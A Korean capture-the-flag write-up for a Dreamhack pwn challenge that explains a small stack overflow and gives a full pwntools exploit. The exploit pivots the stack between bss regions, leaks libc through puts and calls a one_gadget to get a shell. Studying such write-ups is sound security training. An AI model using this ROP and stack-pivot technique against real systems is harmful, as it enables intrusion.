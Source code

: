 # pwn / crosssssstack
## 태그

- 스택 피보팅, ROP

## 보호기법

```bash
[*] '/mnt/d/hk/dreamhack/pwn/myprob/shield_safe/make_prob/prob'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

PIE가 꺼져있고, canary가 없습니다.

## 프로그램 분석

```C
int pwn()
{
    check();
    char buf[0x10];
    puts("If you write your name, I'll remember you for not being able to pwn this program.");
    puts("> ");
    read(0, buf, 0x28);
}
```

`bof`가 발생합니다. 근데 좀 작게 일어납니다. SFP + RET + 8바이트를 덮을 정도입니다.

```C
void check()
{
    for (int i = 0; i < 0x10; i++)
    {
        if (cnt[i] != 0)
        {
            puts("only one chance.");
            exit(0);
        }
        cnt[i] = 1;
    }
}
```

`pwn`이 다시 실행되는지 확인합니다. cnt\[i\] != 0 인 게 하나라도 있다면 프로그램을 종료합니다.

## 익스플로잇 설계

Ret2main을 하면 됩니다. `check`에서 pwn 함수가 여러 번 실행되는지를 체크하는데, 이는 그냥 무시하고 그 뒤로 뛰면 됩니다. 가장 중요한 건 read size가 0x28이라는 너무 작은 크기입니다. 바로 가젯을 체이닝할 순 없고, pwn을 여러 번 실행하면서 체이닝해야 합니다.
그런데 rsp가 rbp 바로 뒤에서 함수를 실행하는 경우 에러가 발생할 수 있고(경험적으로 깨달았으며, 본 문제도 rsp가 rbp + 0x18일 때 read 함수에서 오류가 납니다.) 따라서 sfp 조작을 통해 bss 영역을 두 곳을 오가며 문제를 해결합니다. 자세히 설명하면, 어떤 주소를 `bss`라 할 때 `bss`에 체이닝을 하면서, 가젯 하나를 체이닝 할 때마다 rbp를 `bss + 0x100`로 옮겨 rsp를 rbp 가까이하지 않게 하면서 에러가 나지 않게 합니다.
- 이 부분은 gdb에서 read 함수 내부를 자세히 보시면 이해하기 쉽습니다. 라이브러리 함수는 레지스터나 기타 중요한 값을 보존하기 위해 함수의 처음에 값을 push, 함수의 마지막에 pop 하는 방식을 사용합니다. 이 때 rsp의 주소가 정상적이지 않은 곳을 가리킨다면 스택에 써진 값들이 pop되어 레지스터나 ret 부분을 이상하게 바꾸어 프로그램이 비정상적으로 종료될 수 있습니다.

원리를 깨달았다면 그냥 ROP와 같습니다. libc\_base를 구하고, 원가젯 조건을 맞추며 원가젯을 실행시킵니다.

## exploit

payload가 어떤 주소에 적히는 것인지는 주석에 적어놓았습니다. 참고하시기 바랍니다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 22648)
e = ELF('./prob')
l = ELF('./libc.so.6')

ad = 0x401290 # Address after call check
bss = e.bss() + 0x500
pop_rdi = 0x401203
mov_rax = 0x40113f

# [1] set two two bss parts - bss : p1, bss + 0x100 : p2
payload = b'a' * 0x10 + p64(bss) + p64(ad)
p.sendafter(b'program.', payload)

payload = b'a' * 0x10 + p64(bss + 0x100) + p64(ad)
p.sendafter(b'program.', payload)

payload = b'a' * 0x10 + p64(bss - 8) + p64(ad)
p.sendafter(b'program.', payload)

# [2] write payload
# [2-1] write libc address leak payload in p1 -> go to p2
payload = b'a' * 0x10 + p64(bss + 0x100) + p64(ad) + p64(ad)
p.sendafter(b'program.', payload)

# [2-2] go to p1
payload = b'a' * 0x10 + p64(bss - 0x10) + p64(ad)
p.sendafter(b'program.', payload)

# [2-1] write libc address leak payload in p1 -> go to p2
payload = b'a' * 0x10 + p64(bss + 0x100) + p64(ad) + p64(e.sym['puts'])
p.sendafter(b'program.', payload)

# [2-2] go to p1
payload = b'a' * 0x10 + p64(bss - 0x18) + p64(ad)
p.sendafter(b'program.', payload)

# [2-1] write libc address leak payload in p1 and execute -> go to p2
payload = b'a' * 0x10 + p64(bss + 0x100) + p64(pop_rdi) + p64(e.got['puts'])
p.sendafter(b'program.', payload)
l.address = u64(p.recvn(7)[1:].ljust(8, b'\x00')) - l.sym['puts']
print(f"libc_base = {hex(l.address)}")
og = l.address + 0xebd43

# [3] call one_gadget
payload = b'a' * 0x10 + p64(bss + 0x400) + p64(mov_rax) + p64(og)
p.sendafter(b'program.', payload)
p.interactive()
```

- 마지막에 rbp를 코드 영역과 너무 가까운 주소로 설정한다면 unreadable 주소에 접근하여 원가젯 호출에 실패할 수 있습니다.